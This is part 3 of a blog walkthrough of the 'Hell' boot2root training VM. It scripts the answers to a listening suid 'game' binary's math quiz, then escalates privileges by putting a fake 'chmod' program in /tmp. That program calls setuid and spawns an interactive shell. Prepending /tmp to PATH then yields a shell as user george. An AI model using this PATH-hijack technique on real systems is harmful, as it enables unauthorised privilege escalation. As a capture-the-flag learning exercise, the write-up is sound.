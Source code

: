 ```yaml
---
author: recrudesce
comments: false
date: 2014-07-19 19:05:34+00:00
layout: post
slug: hell-walkthrough-part-3
title: Hell Walkthrough - Part 3
wordpress_id: 118
categories:
- VM's
tags:
- boot2root
- g0tmi1k
- hacking
- hell
- nmap
- peleus
- vulnhub
---
```


[Part 1](http://fourfourfourfour.co/2014/07/17/hell-walkthrough-part-1/) | [Part 2](http://fourfourfourfour.co/2014/07/18/hell-walkthrough-part-2/) | Part 3 | [Part 4](http://fourfourfourfour.co/2014/07/20/hell-walkthrough-part-4/) | [Part 5](http://fourfourfourfour.co/2014/07/21/hell-walkthrough-part-5/)



## I Want to Play a Game, But No Jigsaws, OK ?!


The home folder for milk_4_life is pretty sparse, just a binary called "game". However, it's owned by the george user, and has the suid attribute set.


``` bash
$ ls -l
total 20
---s--x--x 1 george      george      5743 Jun 19 18:24 game
```


Running the binary produces the following output, which doesn't tell us much other than it's "listening". Like a overly intrusive neighbour.
<!-- more -->


``` bash

$ ./game
I'm listening
```


Netstat isn't available on this VM, so we have to find another way to obtain listening port information. Thankfully ss saves the day and shows the game binary IS actually listening, on port 1337 - h4x !


``` bash

$ ss -lp
State       Recv-Q Send-Q    Local Address:Port    Peer Address:Port
LISTEN      0      50        127.0.0.1:mysql       *:*
LISTEN      0      128       :::sunrpc             :::*
LISTEN      0      128       *:sunrpc              *:*
LISTEN      0      128       :::http               :::*
LISTEN      0      128       :::38035              :::*
LISTEN      0      128       *:35380               *:*
LISTEN      0      128       :::ssh                :::*
LISTEN      0      128       *:ssh                 *:*
LISTEN      0      10        *:1337                *:*
LISTEN      0      20        ::1:smtp              :::*
LISTEN      0      20        127.0.0.1:smtp        *:*
LISTEN      0      10        *:666                 *:*
```


Connecting to the port from another session asks us to type "START" to begin. It's more fun to troll the code, though, by typing something completely different. Did you expect anything less of me ?


``` bash

$ telnet 127.0.0.1 1337
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Type 'START' to begin

banana
No... START. S-T-A-R-T

Connection closed by foreign host.
```


OK, enough messing around, let's see what this game does. Typing START presents us with a high score, and then math questions that only your high school math teacher would ask you infront of the rest of the class. Needless to say I'm not answering any of these correctly !


``` bash

$ telnet 127.0.0.1 1337
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Type 'START' to begin

START
Starting...

You have 30 seconds to get as many points as you can, beat the high score! (High Score: 133723)

Quick what's... 924 x 541? Umm
Quick what's... 982 x 21? No idea
Quick what's... 194 x 542? Really ?
Quick what's... 679 x 733? WHY WOULD I NEED TO KNOW THIS !?
Quick what's... 960 x 248? I give up.
Quick what's... 718 x 646? THANKS OBAMA !
Quick what's... 162 x 784? ^C
Connection closed by foreign host
```


Being the competitive person I am, I figured it would be fun to try and beat the score. More than 133723 points in 30 seconds means I have to answer 4457 correct answers a second. I can type quickly, but not that quickly. This requires some scripting - Python to the rescue ! This script connects to the game, reads the question, splits it based on " x " to get both numbers, performs the multiplication and sends the answer back. Granted I had some help on with this code - thanks c0ne !


``` python

#!/usr/bin/python
import socket
import re

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('127.0.0.1',1337)) # hardcoded IP address
s.recv(1024)
s.send('START\n') # login procedure
s.recv(110)
while True:
    d = s.recv(200)
    l = re.findall(r"Quick what's... (.*?)\?", d)
    if not l:
        print d
        break
    (a,b) = l[0].split(' x ')
    mul = int(a) * int(b)
    print str(mul)
    s.send(str(mul)+'\n')

print s.recv(1024)
s.close()
```


Running it produces a sense of authority over our robot overlords - I'm gaming the game.


``` bash

$ python gamey3.py
125451
150858
498300
493353
60564
**** SNIP ****
174386
841312
53636
Final Score: 412619

!*!*!*!*! Congratulations, new high score (412619) !*!*!*!*!

I hear the faint sound of chmodding.......
```


![high_score_320x320](http://fourfourfourfour.co/wp-content/uploads/2014/07/high_score_320x320.png)

It seems that the binary performs an action when the highscore is beaten. I'm not sure what it chmods, but I wonder if we can play this game at it's own game and make it run a bogus binary. There's a distinct possibility the code is relying on the PATH environment variable and just calling system("chmod file") rather than using an absolute path.

So, a bogus chmod binary is created using the following source, compiled, placed in /tmp on the VM and made executable (do I need to show you how to do this ? No ? Good. Saves me the typing.)

[c]#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
 setuid( 1000 );
 system("id");
 system( "/bin/sh -i" );
}
```


The path environment variable is modified to make /tmp the first location checked


``` bash
$ PATH=/tmp:$PATH
$ export | grep PATH
export PATH='/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games'

```


So, hopefully, if all goes to plan, when we beat the score it should run our fake chmod binary and drop us to a shell. How about we give it a go ? The game is started, and the Python script is run to beat the score (I'm not going to show you again, just scroll up if you want to see what it looks like).

The score is beaten and we are indeed dropped to a new shell as the george user.


``` bash

$ ./game
I'm listening
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
$

```


![](http://31.media.tumblr.com/tumblr_lwipupOVfN1qh59n0o1_500.gif)
